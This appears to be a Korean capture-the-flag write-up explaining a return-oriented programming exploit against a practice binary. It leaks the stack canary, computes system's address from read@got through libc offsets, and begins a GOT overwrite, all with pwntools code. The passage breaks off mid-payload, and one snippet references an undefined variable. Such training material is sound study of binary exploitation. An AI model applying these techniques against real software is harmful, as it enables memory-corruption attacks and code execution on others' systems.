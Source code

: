 2. 코드 상에서 존재하지 않는 `system`의 주소를 계산한다.

3. `"/bin/sh"`의 문자열을 찾는다.

4. **GOT Overwrite**를 진행한다.

### 1. Canary

```C
  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);
```

Canary의 위치까지 입력하여 해당 Canary를 받아오면 된다. Canary는 `rbp` 혹은 `ebp` 위에 OS 32bit 기준 4byte, 64bit 기준 8byte의 크기만큼 쌓여 있다.

따라서, buf로부터 Canary 위치까지 입력하게 된다면 해당 값을 받아올 수 있다.

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

p = process('./rop')
e = ELF("./rop")
libc = ELF("./libc-2.27.so")

# [1] Leak Canary
buf = b'A'*57
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
canary = u64(b'\x00'+p.recvn(7))
slog("Canary", canary)
```

해당 코드를 실행하게 되면 Canary값을 받아 올 수 있다.

### 2. System 주소

`system` 함수는 **libc**에 정의되어 있고, `read, puts, printf` 등 여러 함수도 정의되어 있다. 해당 라이브러리 파일은 메모리에 매핑될 때, 다른 함수들과 함께 `system`함수도 프로세스 메모리에 적재된다.

하지만, 해당 코드 즉, 바이너리에서는 `system`함수를 직접 호출하지 않아 GOT에 등록되어 있지 않고, `read, puts, printf`는 GOT에 등록되어 있다.

libc는 여러 버전이 있지만, **같은 libc안에서는 함수간의 사이 거리(Offset)는 항상 같다.**

이 점을 이용해 GOT에 등록된 `read, puts, printf`로 함수의 GOT값을 읽고, `system`과의 거리를 구해 `system`의 실 주소를 구할 수 있다.

read의 GOT 값을 읽기 위해 puts를 활용하여 `read@got` 주소를 읽어오고, **해당 값**과 **read의 offset**를 빼면 libc_base 즉, 라이브러리의 절대 주소가 나온다. 해당 값에 **system의 offset**을 더하면 `system@got`가 되는 것이다.

```python
read_plt = e.plt['read'] # read 함수 호출
read_got = e.got['read'] # read@got 주소 확인용
puts_plt = e.plt['puts'] # puts 함수 호출
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
#####
# ROPgadget --binary ./rop | grep "pop [Register]"
# pop_rdi = 0x00000000004007f3
# pop_rsi_r15 = 0x00000000004007f1
#####

#####
# payload += p64(ret)  # stack alignment to prevent errors caused by movaps
# Stack alignment : 16 Byte단위로 정렬하는 것, 아무 의미 없는 ret 가젯 대입
```